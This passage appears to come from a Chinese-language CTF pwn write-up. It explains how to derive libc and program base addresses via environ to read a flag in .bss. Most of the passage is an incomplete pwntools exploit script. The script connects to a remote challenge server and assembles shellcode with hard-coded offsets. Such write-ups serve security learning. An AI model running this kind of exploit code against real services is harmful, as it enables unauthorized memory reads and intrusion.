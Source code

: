 然后`R9`用来保存`libc_base`，计算出`environ`的地址找到程序的基地址接着就可以读到`.bss`的`flag`了。

思路都能整的明白，就是不知道咋调的:>

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

# remote_service = ""
# remote_service = remote_service.strip().split(":")
# p = remote(remote_service[0], int(remote_service[1]))
p = remote('39.106.156.74', 15163) 
filename = "./pwn"
# p = process(filename) 
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
 # lg("p.pid")
 # input()
 pass

# environ = 0x3ee098
# prctl = 0x122210
def send_code():
 code = asm(
  f"""
  lea rsi, byte ptr [rip - 0x2ba]
  add rsi, 0xf69
  mov rsp, rsi
  lea rdx, byte ptr [rip + 0xfb5 - 7]
  mov r8, [rdx]
  add r8, 0x3e8
  mov r9, [r8]
  sub r9, 0x122210

  mov r8, r9
  add r8, 0x3ee098

  mov r9, [r8]
  sub r9, 0x40

  mov r8, [r9]
  sub r8, 0x11a0
  add r8, 0x4120

  mov rdi, 1
```